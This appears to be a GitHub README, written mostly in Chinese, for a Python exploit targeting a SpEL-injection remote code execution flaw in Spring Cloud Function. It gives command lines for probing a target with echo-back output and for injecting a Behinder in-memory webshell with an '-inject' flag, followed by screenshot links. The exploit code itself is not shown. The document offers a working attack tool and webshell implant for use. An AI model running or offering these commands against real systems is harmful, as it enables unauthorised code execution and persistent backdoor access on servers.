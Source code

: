 # -Spring-cloud-function-SpEL-RCE
针对spel表达式注入进行回显和内存马注入的exp
# 使用
回显探测

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="790" alt="image" src="https://user-images.githubusercontent.com/38367493/165485812-a5e12b13-ce52-4b1b-bd76-17d1910bb602.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

